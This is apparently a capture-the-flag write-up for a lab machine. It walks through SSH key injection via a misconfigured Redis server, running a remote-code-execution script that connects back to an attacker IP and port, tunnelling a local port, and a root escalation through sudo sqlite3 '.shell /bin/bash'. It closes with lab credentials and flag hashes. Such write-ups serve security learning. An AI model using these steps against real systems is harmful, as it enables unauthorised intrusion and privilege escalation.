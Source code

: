 # Writeup for ctf

## User

### Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

### Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Tunnel the port from the shell you got from redis by typing:

    ~C
    -L 8080:127.0.0.1:8080

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://127.0.0.1:8080/ 10.10.69.42 3000

## Root

### Sudo sqlite3

As `michiko-arasaka` you can list your sudo permissions with `sudo -l`

You can execute sqlite3 as root on this box, so you can run

    sudo /usr/bin/sqlite3
    .shell /bin/bash

Rooted!

## Creds
root:UnguessableP@ssw0rd

/root/root.txt : 4e067a8231035d94ca54f1e41c12df6e
 

michiko-arasaka:4d4m5M@SH3R

/home/michiko-arasaka/user.txt : 169ab538813557728c78b637db91d1b0

